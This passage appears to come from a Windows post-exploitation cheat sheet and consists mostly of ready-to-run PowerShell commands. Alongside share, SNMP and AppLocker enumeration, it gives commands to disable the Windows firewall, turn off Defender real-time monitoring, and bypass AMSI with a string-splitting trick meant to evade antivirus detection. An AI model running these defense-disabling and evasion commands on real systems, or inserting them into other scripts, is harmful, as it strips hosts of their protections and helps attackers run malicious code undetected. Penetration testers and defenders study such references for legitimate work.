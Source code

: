 Disable firewall

```powershell
netsh firewall set opmode disable
netsh advfirewall set allprofiles state off
```

List all network shares

```powershell
net share
```

SNMP Configuration

```powershell
reg query HKLM\SYSTEM\CurrentControlSet\Services\SNMP /s
Get-ChildItem -path HKLM:\SYSTEM\CurrentControlSet\Services\SNMP -Recurse
```

## Antivirus & Detections

### Windows Defender

```powershell
# check status of Defender
PS C:\> Get-MpComputerStatus

# disable Real Time Monitoring
PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true; Get-MpComputerStatus
```

### AppLocker Enumeration

- With the GPO
- HKLM\SOFTWARE\Policies\Microsoft\Windows\SrpV2 (Keys: Appx, Dll, Exe, Msi and
  Script).

List AppLocker rules

```powershell
PS C:\> $a = Get-ApplockerPolicy -effective
PS C:\> $a.rulecollections
```

### Powershell

Default powershell locations in a Windows system.

```powershell
C:\windows\syswow64\windowspowershell\v1.0\powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell
```

Example of AMSI Bypass.

```powershell
PS C:\> [Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)
```
